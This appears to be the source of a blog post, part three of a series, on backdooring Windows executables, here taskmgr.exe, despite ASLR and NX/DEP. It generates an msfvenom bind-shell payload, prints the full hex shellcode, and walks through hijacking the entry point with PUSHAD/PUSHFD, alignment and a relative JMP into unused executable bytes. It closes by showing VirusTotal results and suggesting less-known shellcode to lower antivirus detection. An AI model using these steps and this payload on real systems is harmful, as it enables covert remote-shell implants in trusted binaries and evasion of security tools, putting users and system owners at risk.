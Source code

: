 ```yaml
---
layout: post
title: Beating ASLR & NX/DEP without PE Headers/Code Caves (VOL:III)
date: 2020-03-08 18:00:00
categories: posts
comments: false
en: true
---
```


### Introduction

You find yourself reading the third volume of the "PE File Backdooring" series. As a result of such, I highly recommend reading the [first](https://whitecr0wz.github.io/posts/Backdooring-PE/) and [second](https://whitecr0wz.github.io/posts/Backdooring-PE-II/) blog post of the series, as it may help understanding 
the shown material on this post.

Today, I will be explaining how to backdoor PE Files when heavy protections such as ASLR and NX/DEP are present without altering the binary at all.
Furthermore, in order to replay the concept, the well-known [task manager](https://en.wikipedia.org/wiki/Task_Manager_(Windows)) will be employed, due to the reason that it has 
all protections enabled and as it is a common executable.

Let's check for available Code Caves just by curiosity.

```term
C:\Users\IEUser\AppData\Local\Programs\Python\Python38-32>python.exe pycave.py -
f C:\Windows\system32\taskmgr.exe
[+] Minimum code cave size: 300
[+] Image Base:  0x00400000
[+] Loading "C:\Windows\system32\taskmgr.exe"...

[!] ASLR is enabled. Virtual Address (VA) could be different once loaded in memo
ry.

[+] Looking for code caves...
[+] Code cave found in .data            Size: 4796 bytes        RA: 0x0001D694
VA: 0x0041E094
[+] Code cave found in .data            Size: 779 bytes         RA: 0x0001E9B1
VA: 0x0041F3B1
[+] Code cave found in .data            Size: 379 bytes         RA: 0x0001EF9D
VA: 0x0041F99D
[+] Code cave found in .rsrc            Size: 725 bytes         RA: 0x00024EAF
VA: 0x00426AAF
[+] Code cave found in .rsrc            Size: 682 bytes         RA: 0x000252DE
VA: 0x00426EDE
[+] Code cave found in .rsrc            Size: 700 bytes         RA: 0x00027434
VA: 0x00429034
[+] Code cave found in .rsrc            Size: 334 bytes         RA: 0x00027886
VA: 0x00429486
[+] Code cave found in .rsrc            Size: 312 bytes         RA: 0x00028760
VA: 0x0042A360
[+] Code cave found in .rsrc            Size: 308 bytes         RA: 0x0002910C
VA: 0x0042AD0C
[+] Code cave found in .rsrc            Size: 585 bytes         RA: 0x0002C233
VA: 0x0042DE33
[+] Code cave found in .rsrc            Size: 369 bytes         RA: 0x0002FCFB
VA: 0x004318FB
[+] Code cave found in .rsrc            Size: 585 bytes         RA: 0x00033613
VA: 0x00435213

C:\Users\IEUser\AppData\Local\Programs\Python\Python38-32>
```

Interesting, we see several places in which we could inject our payload. However, this is actually not possible, as NX/DEP would prevent our instructions from being executed. Of 
course, we could just change the properties of certain sections such as .data or .rsrc, but this is actually found off the bounds of this post, isn't it? We need to circumvent 
such environment without changing the binary too much.

Let's check the enabled protections.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/1.png)

As aforementioned, everything seems enabled.

As we are unable to use a the addition of a PE Header and a Code Cave, we are left with pretty scarce options. Nevertheless, if checked on most binaries, at the bottom of the 
stack, we may find unused data that is partially executable.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/2.png)

It isn't quite much, perhaps among 500 bytes, but it sure is enough to fit our payload and execute it. Sadly, encoding is not available in such scenarios, as the section is too 
privileged for certain encoding characters which are obligatory.

Let's check the entrypoint, as such addresses will be later on restored as explained on the previous posts.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/3.png)

We see a CALL towards 00D68396. As we need to restore this function later on, if we simply replace it with a JMP, we may not have the address to restore due to ASLR. 
#### For such reasons, I will perform this step at the ending, placing the PUSHAD/PUSHFD + shellcode + alignment + POPFD/POPAD + restore first and then replace the entrypoint at 
last.

For this scenario, I will use address 00D7DE67.

Placing PUSHAD/PUSHFD.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/4.png)

Generating shellcode.

```term
root@whitecr0wz:~# msfvenom -p windows/shell_bind_tcp LPORT=9000 -f hex 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 328 bytes
Final size of hex file: 656 bytes
fce8820000006089e531c0648b50308b520c8b52148b72280fb74a2631ffac3c617c022c20c1cf0d01c7e2f252578b52108b4a3c8b4c1178e34801d1518b592001d38b4918e33a498b348b01d631ffacc1cf0d01c738e075f
6037df83b7d2475e4588b582401d3668b0c4b8b581c01d38b048b01d0894424245b5b61595a51ffe05f5f5a8b12eb8d5d6833320000687773325f54684c772607ffd5b89001000029c454506829806b00ffd56a085950e2fd
4050405068ea0fdfe0ffd597680200232889e66a10565768c2db3767ffd55768b7e938ffffd5576874ec3be1ffd5579768756e4d61ffd568636d640089e357575731f66a125956e2fd66c744243c01018d442410c60044545
056565646564e565653566879cc3f86ffd589e04e5646ff306808871d60ffd5bbf0b5a25668a695bd9dffd53c067c0a80fbe07505bb4713726f6a0053ffd5
root@whitecr0wz:~# 
```

Pasting the shellcode.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/5.png)

Performing additional modifications to the shellcode.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/6.png)

Placing the alignment.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/7.png)

Inserting the POPFD/POPAD instructions.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/8.png)

Restoring the CALL instruction.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/9.png)

Now, we could simply replace the CALL instruction without any issue.

Assembling the JMP towards the following address of the entrypoint.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/10.png)

This is then saved.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/11.png)

Replacing the entrypoint for a JMP instruction towards our unused bytes. Even though ASLR is enabled, it should be clarified that JMP instructions do not hardcode their address, 
as if we remember in the last post, the address the instruction was pointing to changed whenever the location of the JMP was modified, meaning that all JMP opcodes are relative 
to their location and do not hardcode addresses. In fact, you could even calculate the distance between the unused bytes and the Entry Point and the result would be the same.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/12.png)

This is then saved.

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/13.png)

If this is run, we may see how the shellcode is executed as intended without any complication!

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/14.gif)

Results of VirusTotal:

![](/assets/img/Backdooring%20PE%20Files%20(VOL%20III)/15.png)

Even though the results are very weak, this could be  improved by changing this shellcode for one that is not as known, as the one used for these posts is pretty noisy against 
Anti-Malware software. Furthermore, the techniques discussed on the [previous](https://whitecr0wz.github.io/posts/Backdooring-PE-II/) post could be from great help in order to 
lower the detection.

Thank you for reading! 

#### References
Capt. Meelo’s post: [https://captmeelo.com/exploitdev/osceprep/2018/07/21/backdoor101-part2.html](https://captmeelo.com/exploitdev/osceprep/2018/07/21/backdoor101-part2.html).

Online x86/x64 Assembler/Disassembler: [https://defuse.ca/online-x86-assembler.htm#disassembly2](https://defuse.ca/online-x86-assembler.htm#disassembly2).
